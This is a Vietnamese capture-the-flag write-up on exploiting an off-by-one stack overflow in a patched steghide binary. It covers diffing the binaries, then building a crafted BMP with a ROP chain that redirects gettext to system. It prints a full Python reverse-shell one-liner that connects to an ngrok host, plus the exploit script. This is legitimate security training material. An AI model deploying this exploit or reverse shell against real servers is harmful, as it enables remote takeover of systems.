 **1. Tìm lỗi**
  - Đây là chall dùng 1 tool thực tế có tên là `steghide` nên việc tìm lỗi thông qua `source` rất khó. Tuy nhiên chall này đã cung cấp cho ta 2 file `binary` trong đó có một file có lỗi và một file đã vá, ta chỉ cần chỉ ra điểm khác nhau là có thể dễ dàng tìm thấy được lỗi.
  - A Hy đã chỉ mình dùng tool `Bindiff` để so sánh, và dễ dàng chỉ ra điểm khác nhau ở hàm `BmpFile::readdata()`
  - ![image](https://user-images.githubusercontent.com/113702087/230003701-123b757e-92a1-4b1b-a401-6d46e03ac9e7.png)
  - Khi độ chính xác của hàm này ở 2 file là `99%`.
  - ![image](https://user-images.githubusercontent.com/113702087/230004061-c3aa1828-cf77-48d7-922e-fe84e25583e8.png)
  - Dễ dàng thấy điểm khác nhau tại vòng `for` khi điều kiện lặp ở file lỗi là `<= height` trong khi ở file vá là `< height`. Điều này có thể dẫn đến các lỗi như `overflow`, `out of bound`, ...
  - ![image](https://user-images.githubusercontent.com/113702087/230006389-e6491c26-0bc8-490d-971b-7c86ec58d04c.png)
  - Trong hàm này nó sẽ đọc dữ liệu từ `file` lượng byte tối đa đọc được phụ thuộc vào `height` và `linelength`, tổng lượng byte đọc được sẽ lưu vào `numread` tuy nhiên do `<=` nên `numread` sẽ vượt quá `height*linelength`. Mình sẽ dùng `x` của `ida` để xem `numread` được sử dụng ở đâu.
  - Cho ai thắc mắc thì `height` và `linelength` là chiều rộng và chiều dài của file và nó được đọc từ trường `header` của file thông qua hàm `BmpFile::readheaders()` vậy nên thêm bao nhiêu dữ liệu vào thì giá trị của chúng luôn không đổi.
  - ![image](https://user-images.githubusercontent.com/113702087/230009548-865d05a9-9daa-4e8b-9016-78001dc91068.png)
  - ![image](https://user-images.githubusercontent.com/113702087/230009377-c6ed3fd2-5264-40b9-a966-305c34faf26f.png)
  - Sau khi `readdata` nó sẽ thực hiện `getdata` nơi sẽ gọi `getheaders`. Trong `getheaders` nó thực hiện cấp phát bằng `alloca` trên stack bằng `height*linelength` nhưng nó lại dùng `memcpy(&v3, a1, (unsigned int)numread)` để copy dữ liệu đọc được từ file vào stack với size là `numread`, như đã nói ở trên `numread` có thể > `height*linelength` do đó tại đây nó sẽ gây lỗi `overflow`.
  - Về phía `server` là một `website`
  - ![image](https://user-images.githubusercontent.com/113702087/230004814-79b696e8-b4fb-479b-af81-674edb6c0d2f.png)
  - nó nhận đầu vào là một `file` và `pass` của file này rồi thực thi câu lệnh `subprocess.run(['steghide', 'extract', '-sf', stegfile_name, '-p', request.form['passphrase'], '-xf', outfile_name], check=True, timeout=60)`
  - Có vẻ như `BmpFile::readdata()` sẽ được thực hiện khi ta `extract` một file `bmp` nên ta sẽ dùng `bmp` để gửi `payload`.

**2. Ý tưởng**
  - ![image](https://user-images.githubusercontent.com/113702087/230013813-388a983e-9275-4395-8656-8989c86eae87.png)
  - Ta có thể `overwrite` saverip với 126 byte khá là ít, tuy nhiên đủ để ta tạo shell nhưng việc tạo shell dường như là vô nghĩa khi nó không có `netcat`. Vậy nên ta sẽ chuyển sang hướng `reverse shell` để tạo `shell` về máy mình. Đê làm được điều này ta cần rất nhiều gadget do đó ta sẽ thay đổi rsp thông qua rbp với một địa chỉ ghi được đã biết.
  - Do không thể sử dụng các hàm input vì không có `netcat` nên ta sẽ sử dụng input có sẵn từ file để nạp `gadget` vào một địa chỉ trên binary và trỏ rsp vào đây. Ta có thể lợi dụng `memcpy` lần nữa để đưa các `payload` từ file vào địa chỉ mong muốn do ta có thể thay đổi `rdi` thông qua `pop rdi ; ret`.
  - Trước khi `ret` các thanh ghi có giá trị như sau:
  - ![image](https://user-images.githubusercontent.com/113702087/230015037-8418ddf8-ae2e-4d3b-81f6-eaaa5f467e63.png)
  - Dường như sau khi `memcpy` thì `rsi` và `rdi` đã thay đổi chỉ còn lại `rdx`. Tuy nhiên `rdi` mới này lại cách `rsi` cũ `0x58` byte vậy nên có thể coi nó là `rsi` cũ, việc cần làm là chuyển `mov rsi, rdi ;  pop rdi ; ret ; memcpy` thì ta có thể thực hiện chuyển `payload` sang địa chỉ tùy ý. Nhưng gần như không có gadget nào thỏa mãn điều này. Các gadget control `rsi` dường như sẽ khiến chương trình `exit`.
  -  Sau một lúc suy ngẫm thì mình thấy được cái này.
  -  ![image](https://user-images.githubusercontent.com/113702087/230018211-eb4539b8-9a4f-4513-91c8-98d3258c69c4.png)
  -  ![image](https://user-images.githubusercontent.com/113702087/230018590-232045e1-e886-4384-a83b-e5b49b3125d2.png)
  - Một phần của hàm `getheaders()`, điều này có nghĩa là ta sẽ thay đổi được `[rbp+dest]` và `[rbp+src]`, ban đầu ta sẽ thay đổi `rbp` rồi đưa `rdi` vào `[rbp+src]`, như thế ta có thể copy `payload` vào địa chỉ tùy ý rồi.
  - ![image](https://user-images.githubusercontent.com/113702087/230021665-e1162f76-40f8-443a-97a2-40e31c4f0816.png)
  - Việc bây giờ ta chỉ tính `offset` và thực thi `reverse shell`
  - Mình sẽ chọn `python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"0.tcp.ap.ngrok.io\",13577));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")'` để làm `reverse shell`, rồi thực thi `system(reverseshell)`

**3. Khai thác**
  ```
  pop_rax_rbx_rbp = 0x0000000000414d29
pop_rsi = 0x0000000000417f3e
pop_rdx = 0x000000000042cd0c
pop_rdi = 0x0000000000450e8b
add_irbp_ebx = 0x0000000000404a38
pop_rbp = 0x0000000000404a39
leave_ret = 0x000000000040a392
syscall = 0x00000000004066b3
addr = 0x48a930
movinrbp_rdi = 0x00000000004220e0
  ```
  - setup một số `gadget` có ích
  ```
  headerfile = b'BMzL\x02\x00\x00\x00\x00\x00>\x00\x00\x00(\x00\x00\x00\xd3\x05\x00\x00!\x03\x00\x00\x01\x00\x01\x00\x00\x00\x00\x00<L\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\x00'
shellrv = f'python3 -c \x27import os,pty,socket;s=socket.socket();s.connect((\x22{ip}\x22,{port}));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\x22sh\x22)\x27\x00'
shell = headerfile + b'a'*(len(shellrv)-10 - 8)
  shell += flat(
    pop_rax_rbx_rbp+1, 0x13e10, exe.got['gettext'] + 0x3d,
    add_irbp_ebx,
    pop_rdi, 0x48abd4,
    exe.sym['gettext'],
    word_size=64, sign = True
)
  ```
  - Đầu tiên ta sẽ tạo một `headerfile` và `reverse_shell`, căn chỉnh thêm `offset` rồi đưa các `gadget` vào các `gadget` này sẽ được thực thi sau khi thay đổi được rsp
  - `gadget` trên sẽ thay đổi `gettext got` thành `system` và thực thi `reverse shell`
  ```
  shell += shellrv.encode()*29
shell = shell.ljust(0x24c71, b'\xff') + 0x3e*b'a'
  ```
  - Tiếp đến ta sẽ đưa `reverse shell` vào và bù thêm một phần để `overflow` đoạn `memcpy`.
  ```
  rop = flat(
    addr,
    movinrbp_rdi, addr + 8,
    pop_rdi, addr,
    movinrbp_rdi, addr + 0x20,
    pop_rdx, 0x6d0,
    0x41B355,
    pop_rbp, addr,
    leave_ret,
    word_size=64, sign = True
)

shell += rop
  ```
  - ROP này sẽ được chèn vào khi `overflow` nhằm thực hiện lại `memcpy` như đã nói ở trên và thay đổi `rsp`.

**4. Demo trên docker**
  - Mình test trên `docker` được nhưng `server` thì lỗi nên sẽ làm trên `docker`.
  - ![image](https://user-images.githubusercontent.com/113702087/230026857-978c0b29-a759-4c2b-a375-3aa14e069da8.png)
  - Ta tạo host thông qua `ngrok` và `listen` tại port `8080`. Rồi tạo file ảnh với `script` trên theo `ip` và `port`
  - Ta sẽ gửi file ảnh lên `web` và chờ kết quả
  - ![image](https://user-images.githubusercontent.com/113702087/230027418-d7f1184e-a457-4d42-97e4-ae59028f615f.png)
  - ![image](https://user-images.githubusercontent.com/113702087/230027932-bc1f95db-6601-45f8-b848-4a508c11b3ba.png)
  - Lưu ý `script` này chỉ sài với `ngrok`
